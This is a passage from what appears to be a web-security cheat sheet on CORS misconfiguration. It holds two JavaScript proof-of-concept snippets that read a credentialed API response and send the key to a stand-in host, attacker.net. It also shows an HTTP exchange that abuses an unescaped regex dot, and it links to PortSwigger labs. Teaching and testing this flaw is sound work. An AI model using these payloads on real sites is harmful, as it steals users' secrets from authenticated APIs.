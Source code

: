 #### Proof of concept (Example 1)

This PoC requires the respective JS script to be hosted at `evilexample.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```

#### Vulnerable Implementation (Example 2)

In this scenario the server utilizes a regex where the dot was not escaped correctly. For instance, something like this: `^api.example.com$` instead of `^api\.example.com$`. Thus, the dot can be replaced with any letter to gain access from a third-party domain.

```
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://apiiexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://apiiexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}

```

#### Proof of concept (Example 2)

This PoC requires the respective JS script to be hosted at `apiiexample.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```


## Labs

* [PortSwigger - CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)
* [PortSwigger - CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)
* [PortSwigger - CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)
* [PortSwigger - CORS vulnerability with internal network pivot attack](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack)
